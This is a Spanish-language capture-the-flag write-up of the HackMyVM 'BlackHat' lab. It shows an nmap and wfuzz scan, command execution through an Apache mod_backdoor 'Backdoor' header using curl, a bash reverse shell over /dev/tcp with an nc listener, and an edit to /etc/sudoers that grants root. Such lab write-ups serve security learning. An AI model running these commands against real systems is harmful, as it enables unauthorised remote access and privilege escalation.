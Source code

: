 ```yaml
---
layout: post
title: BlackHat
date: 2022-11-29
categories: ["HMV", "Enumeration", "PHP", "File Edit"]
thumbnail: "assets/images/BlackHat.png"
---
```


# BlackHat [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.118 -oG allPorts`
- `nmap -sCV -p80 192.168.1.118 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Como no hemos visto nada interesante vamos a hacer `fuzzing`, en mi caso utilizaré `WFuzz`, una herramienta en `Python`. Antes de eso me fijé que utilizaba `PHP`, por lo que en vez de buscar directorios busqué por archivos `PHP`.

```
wfuzz -u "192.168.1.118/FUZZ.php" -w directory-list-2.3-medium.txt --hc 404
```

Tras unos minutos de espera veremos un archivo `PHP` con el nombre de `phpinfo.php`. Dicho fichero contiene la información de `PHP` representada, por lo que es bastante útil a la hora de descubrir cosas.

Bien, tras un rato mirando me fijé en `Loaded Modules`, había un módulo algo extraño llamado `mod_backdoor`. Busqué información sobre éste módulo y llegué a un `script` en `Python` hecho por [`WangYihang`](https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor/blob/master/exploit.py) el cual si inspeccionamos el código veremos que para enviar un comando utiliza el `header` `Backdoor`.

Sabiendo esto podemos crear nosotros mismos esa petición con `CURL`, vamos allá:

- `curl -H "Backdoor: id" http://192.168.1.118`

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bien! Vemos que podemos ejecutar comandos de forma remota! Ahora tenemos que ganar una Shell, para ello me copié una Reverse Shell de [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) en `Bash`. Antes de enviar el comando nos tenemos que poner es escucha con `NC` por el puerto que queramos, en mi caso el `4444`:

- `nc -nlvp 4444`

Ahora sí estamos preparados para entablar una conexión:

```
curl -H "Backdoor: bash -c 'bash -i >& /dev/tcp/192.168.1.118/4444 0>&1'" http://192.168.1.118
```

Bien! Hemos recibido una Shell como `www-data`!

### Subida de privilegios #1
Una vez dentro de la máquina me dispuse a listar los usuarios, antes de mirar el archivo `/etc/passwd` me gusta listar el directorio `/home/`. Vemos a un usuario con el nombre `darkdante`.

Tras varios minutos sin conseguir nada como `www-data` ejecuté el siguiente comando:

- `sudo - darkdante`

Wow! No hemos proporcionado contraseña y estamos como `Darkdante`! 

### Subida de privilegios #2
Ahora que ya estamos como `Darkdante` podemos continuar con nuestro objetivo: obtener `root`. Para ello comencé con enumeración básica, aunque no sirvió de nada. Tras un rato me puse a ver los archivos importantes: `/etc/passwd`, `/etc/shadow` (no tenía permisos) y, por último `/etc sudoers`, el cual podía editar.

Vaya sorpresa, generalmente dicho archivo no se puede editar debido a los riesgos que conlleva, pero como se puede editar vamos a poner nuestro nombre de usuario para que pueda ejecutar todo como `root` sin contraseña.

Para ello añadiremos la siguiente línea justo debajo de `root`:

```
darkdante ALL=(ALL:ALL) ALL
```

Una vez hecho lo anterior ejecutamos `sudo su` para ser `root`.

Enhorabuena! Estamos en la máquina como `root`! Qué fácil!
